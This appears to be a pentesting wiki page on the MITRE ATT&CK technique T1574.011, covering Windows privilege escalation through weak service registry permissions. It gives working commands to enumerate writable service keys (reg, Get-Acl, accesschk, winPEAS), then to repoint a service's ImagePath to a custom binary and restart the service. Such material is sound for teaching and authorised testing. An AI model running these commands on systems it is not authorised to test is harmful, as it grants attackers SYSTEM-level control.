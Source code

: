 ```yaml
---
description: MITRE ATT&CK™  Hijack Execution Flow: Services Registry Permissions Weakness 
  - Technique T1574.011
---
```


# Weak Registry Permissions

## Theory

By hijacking the Registry entries utilized by services, attackers can run their malicious payloads. Attackers may use weaknesses in registry permissions to divert from the initially stated executable to one they control upon Service start, allowing them to execute their unauthorized malware.

## Practice

An attacker can leverage this misconfiguration to modify the ImagePath of service with the path of the custom malicious executable that will give an escalation to the account context the service is set to execute under (local/domain account, SYSTEM, LocalService, or NetworkService).

{% tabs %}
{% tab title="Enum" %}
We can check our permissions over services registry doing:
```powershell
#Get the binary paths of the services
reg query hklm\System\CurrentControlSet\Services /s /v imagepath

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

#With PowerShell
get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"

Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\<ServiceName> | fl
```
Alternativly, we can use [AccessChk](https://learn.microsoft.com/fr-fr/sysinternals/downloads/accesschk) from sysinternals tools to enum permissions over services.
```powershell
#List rights for authenticated users on registry
accesschk64.exe /accepteula "authenticated users" -kvuqsw hklm\System\CurrentControlSet\services

#List everyone rights on registry
accesschk64.exe /accepteula -kvuqsw hklm\System\CurrentControlSet\services

#List everyone rights on specific service registry
accesschk64.exe /accepteula -kvuqsw hklm\System\CurrentControlSet\services\<Name>
```

Or we can use the `servicesinfo` module of [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}
To change the path of th binary
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```

And then, restart the service
```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions" %}